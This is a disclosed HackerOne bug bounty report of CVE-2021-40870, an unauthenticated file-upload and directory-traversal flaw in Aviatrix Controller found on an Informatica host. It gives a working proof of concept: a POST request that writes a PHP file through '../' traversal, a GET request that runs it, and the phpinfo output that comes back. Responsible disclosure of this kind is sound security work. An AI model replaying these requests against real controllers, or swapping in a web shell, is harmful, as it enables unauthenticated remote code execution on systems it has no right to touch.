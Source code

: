 # CVE-2021-40870 in [███]

## Report Details
- **Report ID**: 1360593
- **URL**: https://hackerone.com/reports/1360593
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-10-06T04:33:58.035Z
- **Disclosed**: 2021-11-15T09:10:36.843Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
An issue was discovered in Aviatrix Controller 6.x before 6.5-1804.1922. Unrestricted upload of a file with a dangerous type is possible, which allows an unauthenticated user to execute arbitrary code via directory traversal.

The IP has a SSL certificate pointing to Informatica LLC. 
``curl -kvI https://█████████``

Output

```
 Server certificate:
*  subject: ██████
```


## Steps To Reproduce

First, run this request:
```
POST /v1/backend1 HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 136
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CID=x&action=set_metric_gw_selections&account_name=/../../../var/www/php/1yv4QQmkj4h4OdmmyT11tkiGf5M.php&data=RCE<?php phpinfo()?>

```
The retrieve the content from file ``1yv4QQmkj4h4OdmmyT11tkiGf5M.php``

```
GET /v1/1yv4QQmkj4h4OdmmyT11tkiGf5M.php HTTP/1.1
Host: ████
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```
Which is basically the output of the phpinfo function:

Response (truncated): 
```
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">SCRIPT_URL </td><td class="v">/v1/1.php </td></tr>
<tr><td class="e">SCRIPT_URI </td><td class="v">https://█████████/v1/1.php </td></tr>
<tr><td class="e">HTTPS </td><td class="v">on </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_C </td><td class="v">US </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_ST </td><td class="v">California </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_L </td><td class="v">Redwood City </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_O </td><td class="v">Informatica LLC </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_OU </td><td class="v">██████ </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_CN </td><td class="v">██████ </td></tr>
<tr><td class="e">SSL_SERVER_I_DN_C </td><td class="v">US </td></tr>
<tr><td class="e">SSL_SERVER_I_DN_O </td><td class="v">HydrantID (Avalanche Cloud Corporation) </td></tr>
<tr><td class="e">SSL_SERVER_I_DN_CN </td><td class="v">HydrantID SSL ICA G2 </td></tr>
<tr><td class="e">SSL_SERVER_SAN_DNS_0 </td><td class="v">███ </td></tr>
<tr><td class="e">SSL_VERSION_INTERFACE </td><td class="v">mod_ssl/2.4.39 </td></tr>
 ```

## Impact

-   An unauthenticated, 3rd-party attacker or adversary can execute remote code
 
### Supporting Material/References
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40870

## Attachments
No attachments
